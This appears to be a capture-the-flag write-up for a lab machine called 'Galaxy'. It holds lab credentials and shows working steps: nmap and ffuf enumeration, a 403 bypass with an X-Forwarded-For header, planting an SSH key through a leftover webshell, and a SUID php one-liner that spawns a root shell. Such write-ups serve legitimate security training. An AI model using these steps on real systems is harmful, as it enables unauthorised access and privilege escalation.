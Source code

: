 # [Galaxy]

## Introduction

Galaxy is easy level machine In this challenge, machine hosting a beta website about facts. The site was vulnerable to bypassing the 403 Forbidden restriction using the X-Forwarded-For header. After successfully bypassing 403 restriction we can see devs left webshell which uses custom web user after user shell enumeration leads us to php which has suid bit permission
## Info for HTB

### Access

Passwords:

| User  | Password                            |
| ----- | ----------------------------------- |
| web | 1203a |
| root  | root8618 |

### Key Processes

1) SSH server on 22 port
2) Apache2 server on 80 port which is vulnerable to http host header
3) There is web shell in /developers directory
4) php has suid bit permission

### Automation / Crons
There is no automation

### Firewall Rules

There is no firewall rule

### Docker

There is no docker

### Other

1)I made my own ip address to redirect to galaxy.htb in /etc/apache2/sites-avialabel/000-default.conf<br>


# Writeup

# Enumeration

We begin enumeration with nmap tools from ports of target:<br>
`sudo nmap -sC -sV 192.168.2.110 -p- --min-rate=1000 -T4`<br>
`-sC` This flag for basic scripting<br>
`-sV` This flag for to check version<br>
`-p-` To check all ports we do not want to miss any<br>
`-T4` This flag to make scaning slightly faster (default -T3 when you don't specify)<br>
`--min-rate=1000` This is minimum rate of nmap packets<br>

![image](https://github.com/user-attachments/assets/0ceb7925-bc85-46b2-a07c-a15b77d72ce6)

We can see there are 22 and 80 port open. Website has galaxy.htb domain we need to add that domain with it's IP to our /etc/hosts file :<br>
```
echo "192.168.2.110       galaxy.htb" | sudo tee -a /etc/hosts
```
Website looks like blog about cosmos and it is in beta version
<br>
<br>
![image](https://github.com/user-attachments/assets/402a2623-84b0-4d82-97a7-1fbe5681ee21)

Let's enumerate directories and subdirectories using ffuf tool:<br>
```
ffuf -u http://galaxy.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```
<br>
We find /developers and /photos directories and /developers directory gives us 403 forbidden error<br>

![image](https://github.com/user-attachments/assets/27c54f85-4952-4b13-8040-9c07dea34883)
<br>
Trying to enumerate any subdomains other directory leads us nothing. So we try to find a way to access /developers directory.<br>
Googling 403 bypass error we find [this](https://github.com/justdoston/403-Bypass) documentation.<br>
According to documentation trying to add forward headers with 127.0.0.1 ip will work, because server will think user trying to access from internal IP address.<br>

Let's use proxy forwarding tool such as burp suite to manupulate and try this technique.<br>
![image](https://github.com/user-attachments/assets/605568f6-ecb7-4b28-a860-f5d9f7f40430)


`X-Forwarded-For: 127.0.0.1` header successfuly worked to bypass<br>
![image](https://github.com/user-attachments/assets/3374c55f-ae55-45b0-9f02-3b87781a9c92)



# Foothold

We use same technique to see content of README.md file:<br>
![image](https://github.com/user-attachments/assets/b3785047-9a54-42f9-99ba-cc7f56164d91)
<br>
Not much usefull let's take a look to web.php file<br>
![image](https://github.com/user-attachments/assets/1ce77e27-b006-49be-b5fa-1f321d4f40e7)

<br>
It looks like developers left webshell in developers directory, it is because web site hasn't been finished fully yet<br>
We can copy our own id_rsa.pub (publick key) to web users authorize_keys to login via ssh without a password

```
echo "public key" > /home/web/.ssh/authorized_keys
```


<br>
Let's login using our own ssh with id_rsa for more comfortable and stable shell. If you don't have id_rsa keys create using 

<br>`ssh-keygen -t rsa`<br>

````
┌──(master㉿kali)-[~/.ssh]
└─$ ssh -i id_rsa web@192.168.2.106
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.8.0-50-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri Jan 24 02:47:24 AM UTC 2025

  System load:  0.0               Processes:               105
  Usage of /:   33.7% of 7.79GB   Users logged in:         0
  Memory usage: 9%                IPv4 address for enp0s3: 192.168.2.106
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


Last login: Fri Jan 24 02:19:46 2025 from 192.168.2.107
$ 
````
user flag can be found in web home directory.<br>

# Privilege Escalation
After a long enumeration files with suid bit permission worth to pay attention:

````
$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
-rwsr-xr-x+ 1 root root 5779920 Dec  2 12:36 /usr/bin/php8.3
-rwsr-xr-x 1 root root 72792 May 30  2024 /usr/bin/chfn
-rwsr-xr-x 1 root root 277936 Apr  8  2024 /usr/bin/sudo
-rwsr-xr-x+ 1 root root 137776 Apr  8  2024 /usr/bin/diff
-rwsr-xr-x 1 root root 51584 Aug  9 02:33 /usr/bin/mount
-rwsr-xr-x 1 root root 55680 Aug  9 02:33 /usr/bin/su
-rwsr-xr-x 1 root root 40664 May 30  2024 /usr/bin/newgrp
-rwsr-xr-x 1 root root 76248 May 30  2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 64152 May 30  2024 /usr/bin/passwd
-rwsr-xr-x 1 root root 39296 Aug  9 02:33 /usr/bin/umount
-rwsr-xr-x 1 root root 44760 May 30  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 39296 Apr  8  2024 /usr/bin/fusermount3
-rwsr-xr-- 1 root messagebus 34960 Aug  9 02:33 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 18736 Apr  3  2024 /usr/lib/polkit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 163112 Oct 11 08:05 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 342632 Aug  9 02:33 /usr/lib/openssh/ssh-keysign
````
Because php has suid bit permission if we browse to gtfobins we can  escalate privilege:
<br>
![image](https://github.com/user-attachments/assets/ce6fe95d-27bc-4493-9627-fdedd8aeeeca)

````
$ /usr/bin/php8.3 -r "pcntl_exec('/bin/sh', ['-p']);"
# id
uid=1004(web) gid=1004(web) euid=0(root) groups=1004(web)
# whoami
root
#
````
Now we have root shell, root flag can be found in /root directory

